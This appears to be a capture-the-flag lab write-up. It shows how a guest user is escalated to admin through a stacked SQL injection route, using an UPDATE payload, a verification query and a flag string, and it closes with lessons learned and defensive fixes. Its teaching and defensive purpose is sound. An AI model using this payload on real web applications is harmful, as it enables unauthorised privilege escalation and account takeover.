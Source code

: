 # 🔓 Privilege Escalation via SQL Injection (Role Flip)

## 🎯 Objective

Escalate from a low-privileged user (`guest`) to an admin by abusing a writable SQLi injection point in a web application.

---

## 🧠 Application Context

- **Authentication:** `/auth` accepts credentials and sets cookies:
  - `auth` → username
  - `role` → value from DB (`admin` or `user`)

- **Authorization Checks:**
  - `/admin` and `/moderate` only accessible to users with `role=admin`

- **SQL Injection Point:**
  - `/stacked` route executes arbitrary SQL from user input

---

## 🧪 Exploit Path

### Step 1: Modify Role via SQLi

Navigate to:
/stacked


Submit the payload:
sql
UPDATE users SET role='admin' WHERE username='guest';
✅ This silently updates the guest user's role to admin.


Step 2: Verify the Flip

Submit:

SELECT username, role FROM users;

Expected output:

('admin', 'admin')
('guest', 'admin')  ← Confirmed elevation


Step 3: Login as guest

Go to:
/auth

Submit:

    Username: guest

    Password: guest

    Step 4: Access Protected Routes

Now visit:

    /admin → should reveal the admin-only flag

    /moderate → access second-order injection trigger panel

    FLAG{user_to_admin_sql_flip}

    🧰 Tools & Techniques

    SQLi via stacked queries (;)

    Role-based access control enumeration

    Cookie-based auth forging

    Escalation by manipulating DB state

💡 Lessons Learned

    Even basic SQLi (non-blind) can enable full account takeover

    Role checks must be tied to secure sessions, not user-editable values

    Stacked SQL execution should never be allowed from unsanitized input

✅ Defensive Fix

    Sanitize all inputs (parameterized queries)

    Prevent stacked execution (;) in user input

    Move to token-based or session-backed role tracking

    Log and alert on role changes in backend logic
